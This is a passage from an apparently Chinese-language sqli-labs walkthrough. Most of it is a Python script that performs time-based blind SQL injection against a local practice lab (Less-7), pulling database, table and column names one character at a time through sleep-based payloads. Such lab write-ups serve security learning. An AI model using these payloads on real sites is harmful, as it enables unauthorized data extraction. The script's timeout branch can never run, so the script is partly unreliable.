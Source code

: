 ```python
```

![17](/medias/sqli-labs/17.png)

### 时间盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-7/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        # id = "0')) or if((substr((select group_concat(schema_name) from information_schema.schemata)," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆表
        # id = "0')) or if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        # 爆字段
        id = "0')) or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        tmp_url = url + "?id=" + id
        start = time.time()
        resp = requests.get(tmp_url)
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 5:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```

## Less-8

### 布尔盲注
